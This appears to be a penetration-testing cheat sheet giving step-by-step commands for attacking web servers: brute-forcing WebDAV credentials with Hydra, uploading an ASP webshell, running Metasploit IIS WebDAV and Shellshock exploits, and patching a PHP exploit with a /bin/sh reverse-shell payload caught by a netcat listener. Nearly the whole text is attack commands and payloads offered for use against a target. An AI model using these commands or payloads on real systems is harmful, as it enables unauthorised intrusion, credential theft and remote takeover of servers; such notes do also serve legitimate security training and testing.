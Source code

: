 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp

# Metasploit

Choose module: Exploit/windows/iis/iis_webdav_upload_asp -> Set: RHOST, HttpUsername, HttpPassword, PATH (/webdav/metasploit%RAND%.asp)

# ShellShock
(Scan to check if vulnerable) 

Nmap -sV IP -- script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

Open Burp Suite

Proxy -> make sure intercept is on 
Send request to repeater

## To gain reverse shell 

Set up Netcat: nc -nvlp 1234

Once connection is established go back to burp suite

Paste IP in burp -> Send -> Get reverse shell

## With Metasploit
search shellshock 

(Scan) auxiliary/scanner/http/apche_mod_cgi_bash_environment Variable Injection (Shellshock) Scanner -> set targeturi to .cgi page 

(Exploit) exploit/multi/http/apache_mod_cgi_bash_environment Variable Code Injection (Shellshock) -> set LHOST

## PHP 

Searchsploit -m (PATH)

Vim (PATH).py

Python2 (PATH).py TARGET 80

Modify code to receive reverse shell

Vim (PATH).py

Paste $sock=fsockopen(“IP”,1234);exec(“/bin/sh -i <&3 >&3 2>&3”); into pwn_code after php

Open netcat listener 

Another terminal 

Nc -nvlp 1234

Python2 (PATH).py TARGET 80

May have to change 3 -> 4 in the paste in the exploit 

